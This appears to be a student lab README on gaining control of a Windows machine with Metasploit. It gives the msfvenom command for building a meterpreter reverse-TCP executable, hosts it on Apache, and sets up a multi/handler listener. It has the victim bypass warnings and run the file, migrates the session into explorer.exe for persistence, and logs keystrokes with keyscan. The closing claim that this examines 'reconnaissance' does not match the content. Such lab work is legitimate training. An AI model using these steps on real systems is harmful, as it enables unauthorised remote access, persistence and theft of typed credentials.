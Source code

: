 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![Screenshot from 2023-05-22 14-48-04](https://github.com/gokul-sureshkumar/Compromising-windows-using-Metasploit/assets/121148715/197fd273-625d-4d29-8363-24ebb8a85d54)




copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/gokul-sureshkumar/Compromising-windows-using-Metasploit/assets/121148715/6b1f530f-289e-4220-bff3-ec89471550c3)


Start apache server
sudo systemctl apache2 start and Check the status of apache2

![Screenshot from 2023-05-22 14-50-20](https://github.com/gokul-sureshkumar/Compromising-windows-using-Metasploit/assets/121148715/69e9dc66-983f-491f-8d4e-650a17b6a8be)







Invoke msfconsole:
## OUTPUT:

![Screenshot from 2023-05-22 14-51-31](https://github.com/gokul-sureshkumar/Compromising-windows-using-Metasploit/assets/121148715/66454e3a-be70-469d-b3fa-a35ec207dfa2)




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![Screenshot from 2023-05-22 14-52-02](https://github.com/gokul-sureshkumar/Compromising-windows-using-Metasploit/assets/121148715/52ee054f-56a9-412e-b32a-997b56a7f7a5)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![Screenshot 2023-05-26 154555](https://github.com/gokul-sureshkumar/Compromising-windows-using-Metasploit/assets/121148715/a5f7954b-027f-469e-99f2-ff379d6915a8)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![Screenshot 2023-05-26 154818](https://github.com/gokul-sureshkumar/Compromising-windows-using-Metasploit/assets/121148715/977882af-8892-4bea-ae73-60a66edcdf65)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


keyscan_dump	Shows the keystrokes captured so far
```
![Screenshot 2023-05-26 154955](https://github.com/gokul-sureshkumar/Compromising-windows-using-Metasploit/assets/121148715/e6f8163a-6708-407d-9bd6-ca6992dd3925)
```

## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
